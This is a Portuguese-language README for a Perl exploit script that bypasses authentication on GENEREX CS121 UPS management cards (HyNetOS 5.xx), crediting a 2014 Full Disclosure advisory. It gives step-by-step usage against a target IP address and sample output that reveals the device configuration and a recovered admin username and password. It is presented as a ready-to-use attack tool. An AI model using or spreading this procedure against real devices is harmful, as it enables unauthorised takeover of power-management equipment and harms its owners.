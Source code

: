 # Autenticação Bypass do CS121 da GENEREX
 - Este procedimento foi feito com base do CL121BL,B e F da CM comandos na versão HynetOS 5.XX: ***
 
 Os créditos são totalmente do JKMAC da seclists.org:***
 https://seclists.org/fulldisclosure/2014/May/75

 ## UTILIZAÇÃO
 - Dê permissão de executavel no arquivo sockets121.pl:
 ```bash

 chmod +X sockets121.pl
```

 - A sintaxe do script é ./sockets121.pl (IP), ex: ./sockets121.pl 192.168.10.10
 O processo leva cerca de 10 minutos,caso não apresente o login e senha execute novamente que aparecerá as informações:

 ```bash

./sockets121.pl  192.168.10.10

UPS: <VERSION> CS124-16M32M, ROM-Version: 2.5.X(pduc) - Aug 27, 2010 

Target system parameters (current):
Default Protocol : TCP/IP
Default Driver   : Ethernet
Mac address      : 00-03-05-00-00-00
IP address       : 192.168.10.10
Net Mask         : 255.255.255.0
Default Gateway  : XX.XX.XX.XX
DHCP             : 0.0.0.0
DNS              : 0.0.0.0
Port for tools   : 4000


Procurando login ... 
USER: admin, PASS: hg478wegzsu, ACCOUNT: none

```
